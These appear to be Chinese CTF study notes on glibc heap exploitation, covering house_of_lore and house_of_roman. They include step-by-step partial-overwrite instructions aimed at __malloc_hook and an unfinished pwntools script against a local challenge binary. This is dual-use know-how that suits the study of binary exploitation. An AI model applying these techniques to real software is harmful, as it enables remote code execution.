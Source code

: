 ## house_of_lore
特点:
- **改写`small bin chunk`的`bk`指针**。
- 同时在可控内存区域构造一个`fake small bin`链表,从而劫持`small bin`分配一个`fake chunk`出来.
- 空闲`small bin chunk`取出时要过`fd`,`bk`的`pass`
- 所以链表要够长.至少要2个chunk才行

## house_of_roman
- 开启PIE没有leak地址利用

uaf 配合部分写getshell
1. 首先分配`3`个`chunk`,大小分别为`0x20`,`0xd0`,`0x70`.
2. 在`chunk2 + 0x78`处设置`p64(0x61)`,作用是`fake size`,用于后面的`fastbin attack`.
3. 然后再分配`3`个大小`0x70`的`chunk`,释放`chunk3`,`chunk4`,此时`chunk4->fd = chunk3`.修改`chunk4->fd`的低字节,使得`chunk4->fd = chunk2`.
4. 修改`chunk2->size = 0x71`.此时`chunk2->fd`为`main_arean`地址,通过修改低`2`个字节,可以修改到`malloc_hook - 0x23`处(注意,这里需要爆破`1/16`),然后分配`3`次`0x70`的`chunk`拿到包含`malloc_hook`的`chunk`.
5. 此时`malloc_hook`内容为`0`,然后利用`unsorted bin`修改`malloc_hook`内容为`main_arean`的地址,利用部分写修改`malloc_hook`为`one_gadget`(注意,这里需要爆破`1/4096`).
6. 触发`malloc_printerr`
#todo 
https://github.com/romanking98/House-Of-Roman
```python
from pwn import *

def create(size, index):
	r.sendlineafter("3. Free", "1")
  r.sendlineafter(":", str(size))
  r.sendlineafter(":", str(index))

def free(index):
  r.sendlineafter("3. Free", "3")
  r.sendlineafter(":", str(index))

def edit(index, content):
	r.sendlineafter("3. Free", "2")
	r.sendlineafter(":", str(index))
	sleep(0.1)
	r.send(content)

r = process("./new_chall", env={"LD_PRELOAD": "./libc-2.24.so"})
r.sendlineafter(":", "a" * 20)

create(0x18, 0)
create(0xc8, 1)
edit(1, "A" * 0x68 + p64(0x61))
create(0x68, 2)
free(1)
create(0xc8, 1)

edit(0, "a" * 24 + "\x71")

create(0x68, 3)
create(0x68, 15)
create(0x68, 16)
create(0x68, 17)
create(0x68, 18)
create(0x68, 19)

free(2)
free(3)
edit(3, "\x20")
```